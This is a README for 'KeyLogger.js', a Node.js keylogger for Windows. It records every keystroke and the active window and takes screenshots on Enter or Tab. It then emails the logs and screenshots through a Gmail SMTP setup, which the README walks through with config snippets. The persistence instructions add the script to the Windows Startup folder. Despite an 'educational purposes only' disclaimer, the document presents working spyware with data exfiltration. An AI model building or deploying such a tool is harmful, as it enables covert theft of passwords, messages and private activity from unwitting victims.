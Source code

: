 # KeyLogger.js

## Description

This project is a global keylogger for Windows built with Node.js. It captures all keyboard input, logs keystrokes, tracks the active window, and takes a screenshot each time the user presses Enter or Tab. The script saves these logs and screenshots in organized folders and sends them via email using Nodemailer.

> **⚠️ Disclaimer:**  
> This code is for educational purposes only. Do not use it for unauthorized monitoring or malicious activities. Unauthorized use may violate privacy laws and GitHub's Acceptable Use Policies.

---

## How to Run

1. **To enable/run the script:**
    - Open `start.vbs`

2. **If you want it to run on startup:**
    - Create a shortcut of `start.vbs`
    - Open Run (`Win + R`), then paste the shortcut in the folder that opens
    - To check, open Task Manager and go to Startup apps, then look for `start.vbs`
    - You can also enable or disable it in the top right of the Startup tab

---

## Email Setup Instructions

This script uses Gmail to send logs and screenshots.  
**You must set up an App Password for your Gmail account:**

1. Go to your Google Account settings.
2. Enable 2-Step Verification if you haven't already.
3. Go to **Security > App passwords**.
4. Generate a new App Password for "Mail" and "Windows Computer".
5. Copy the generated password.

In the code, find this section:
```javascript
const transporter = nodemailer.createTransport({
    host: 'smtp.gmail.com',
    port: 465,
    secure: true,  // use SSL
    auth: {
        user: 'your_email@gmail.com',
        pass: 'your_app_password' // Replace with your App Password
    }
});
```
- Replace `'your_email@gmail.com'` with your Gmail address.
- Replace `'your_app_password'` with the App Password you generated.

**Change the sender and receiver email addresses in the `sendEmail` function:**
```javascript
const mailOptions = {
    from: 'your_email@gmail.com',      // Sender email
    to: 'receiver_email@gmail.com',    // Receiver email
    ...
};
```
- Set both `from` and `to` as needed.

---

## How to Exit/Terminate the Script

- **Method 1:**  
  Open Task Manager  
  - Search for `Node.js Run-Time` and end task  
  - Search for `Windows Based Script Host` and end task

- **Method 2:**  
  Press `Ctrl + Shift + Q` on your keyboard

---

## Features

- Global keyboard capture (system-wide)
- Active window tracking
- Screenshot capture on Enter/Tab
- Organized log and screenshot storage
- Automatic email sending of logs and screenshots
- Multiple exit/termination methods

---

## License

This project is licensed under the [MIT License](LICENSE).

---
